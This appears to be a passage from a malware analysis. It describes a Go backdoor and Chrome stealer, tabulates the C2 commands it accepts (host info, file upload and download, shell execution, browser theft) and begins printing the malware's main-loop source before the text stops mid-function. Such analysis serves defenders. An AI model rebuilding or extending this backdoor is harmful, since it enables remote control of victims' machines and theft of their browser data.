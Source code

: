 The main loop of the backdoor/stealer receives 2 string arguments, the random id and the C2 URL. It implements a persistent connection to the C2 and accepts the following commands, which have constants assigned to them in a configuration file. The commands slice byte arrays provided from the C2 and use the slices for specific command actions (e.g. specifying a path for the file upload/download, or a command execution mode).

| Command    | Command Constant    | Action   |
|-------------|-------------|-------------|
| COMMAND_INFO | qwer | Returns username, hostname, OS, and architecture |
| COMMAND_UPLOAD | asdf | Drops and decompresses a file to a specific path |
| COMMAND_DOWNLOAD | zxcv | Gets files or directories. If it is a directory, it compresses it as .tar.gz |
| COMMAND_OSSHELL | vbcx | Runs commands in 2 modes (SHELL_MODE_WAITGETOUT and SHELL_MODE_DETACH). WAITGETOUT waits for completion, DETACH does not |
| COMMAND_AUTO | r4ys | Core Chrome stealer command, with various sub-commands described below |
| COMMAND_WAIT | ghdj | Sleeps for a specific amount of time |
| COMMAND_EXIT | dghh | Returns an "exited" message |

```golang
package core

import (
	"bits-project/bits/auto"
	"bits-project/bits/command"
	"bits-project/bits/config"
	"bits-project/bits/transport"
	"bits-project/bits/util"
	"bytes"
	"context"
	"crypto/rand"
	"fmt"
	"os"
	"os/exec"
	"os/user"
	"path/filepath"
	"runtime"
	"strconv"
	"strings"
	"time"
)

func StartMainLoop(id string, url string) {

	var (
		msg_type string
		msg_data [][]byte
		msg      string
		cmd      string
		cmd_type string
		cmd_data [][]byte
		alive    bool
	)

	// initialize
	cmd_type = config.COMMAND_INFO
	alive = true
	for alive {
		func() {

			// recover panic state
			defer func() {
				if r := recover(); r != nil {
```